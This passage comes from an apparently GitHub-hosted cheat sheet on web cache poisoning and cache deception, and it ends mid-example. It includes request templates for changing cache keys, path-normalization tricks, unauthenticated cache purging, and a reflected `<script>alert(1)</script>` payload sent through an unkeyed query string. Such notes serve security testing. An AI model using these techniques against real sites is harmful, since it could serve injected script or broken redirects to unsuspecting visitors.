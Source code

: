 				Therefore, in cases like Microsoft Azure, which normalizes the path and treats the hash as a delimiter, it's possible to use this to modify the cache key of the stored resource:
				```
				GET /<Poisoned_Path><Front-End_Delimiter><Path_Traversal><Backend_Path>
				```
				This technique could be applied to any delimiter used by the cache. The only requirement is that the key is normalized and the path is forwarded with the suffix after the delimiter.
	- **Query Exploitation**:
		-  Check if the query is excluded from the cache key:
			- Put cache busters in any headers that can be safely edited without significant side-effects, and might be included in the cache key.
				```
				GET /?q=canary&cachebust=nwf4ws HTTP/1.1  
				Host: example.com  
				Accept-Encoding: gzip, deflate, nwf4ws  
				Accept: */*, text/nwf4ws  
				Cookie: nwf4ws=1  
				Origin: https://nwf4ws.example.com
				```
			- Sites running **Cloudflare** include the `Origin header` in the cache key by default.
			- Enable cache busters for all **Burp Suite** traffic by selecting `'Add static cachebuster'` and `'Include cachebusters in headers'` via Param miner.
			- Delete entries from the target's cache, without authentication, by using the HTTP methods `PURGE` and `FASTLYPURGE` to increase attack complexity.
		-  When the query string is excluded from the cache key:
			- **Take advantage of path normalization**:
				Here's four different approaches to hitting the path '/' on different systems:
				```
				Apache: //  
				Nginx: /%2F  
				PHP: /index.php/xyz  
				.NET: /(A(xyz))/
				```
			- Check if the unkeyed query is vulnerable to basic injection:
				```
				GET //?"><script>alert(1)</script> HTTP/1.1  
				Host: redacted-newspaper.net  
			  
				HTTP/1.1 200 OK  
				<meta property="og:url" content="//redacted-newspaper.net//?x"><script>alert(1)</script>"/>
				```
			- Find a cacheable redirect that reflect the unkeyed query string:
				```
				GET /login?x=very-long-string... HTTP/1.1  
				Host: www.cloudflare.com  
				Origin: https://dontpoisoneveryone/
				```
				
				Then when someone else tries to visit the login page, they'll naturally get a redirect with a long query string:
				```
				GET /login HTTP/1.1  
				Host: www.cloudflare.com  
				Origin: https://dontpoisoneveryone/  
	  